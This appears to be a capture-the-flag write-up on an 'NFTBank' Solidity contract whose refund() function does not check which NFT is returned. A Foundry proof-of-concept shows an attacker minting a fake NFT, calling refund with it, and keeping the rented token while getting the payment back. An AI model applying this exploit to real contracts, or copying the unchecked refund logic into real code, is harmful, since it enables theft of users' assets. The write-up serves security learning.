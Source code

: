 # NFTBank

## Description

`refund()` function lacks the check if anyone is adding a fake NFT.

An Attacker can create a fake NFT contract and call the `refund` with the new NFT deails which clear out his debt.

Attack Steps:

1. Attackers creates the newNFT and mint 1 token for himself

2. Attckers then approves the bank to rent.

3. Attackers then call the `refund()` funciton with it's collection and id of new NFT he just created.

In refund function, this for loop received the wrong address and id, the default valueu of `rentedNFTs` be 0, which is of `CryptoKitties`

```
for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
```

---

## PoC:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import {NFTBank} from "../src/NFTBank.sol";
import {ERC721} from "openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "openzeppelin-contracts/contracts/access/Ownable.sol";

contract CryptoKitties is ERC721("CryptoKitties", "MEOW"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}
contract CryptoDoggies is ERC721("CryptoDoggies", "DOG"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

contract NFTBankHack is Test {
    NFTBank bank;
    CryptoKitties meow;
    address nftOwner = makeAddr("nftOwner");
    address attacker = makeAddr("attacker");

    function setUp() public {
        vm.startPrank(nftOwner);
        bank = new NFTBank();
        meow = new CryptoKitties();
        for (uint i; i < 10; i++) {
            meow.mint(nftOwner, i);
            meow.approve(address(bank), i);
            bank.addNFT(address(meow), i, 2 gwei, 500 gwei);
        }
        vm.stopPrank();
    }

    function test() public {
        vm.deal(attacker, 1 ether);
        vm.startPrank(attacker);
        bank.rent{value: 500 gwei}(address(meow), 1);
        vm.warp(block.timestamp + 86400 * 10);

        //solution

        CryptoDoggies dog;
        dog = new CryptoDoggies();

        dog.mint(attacker, 2);
        dog.approve(address(bank), 2);

        bank.refund(address(dog), 2);

        vm.stopPrank();

        assertEq(attacker.balance, 1 ether);
        assertEq(meow.ownerOf(1), attacker);
    }
}
```
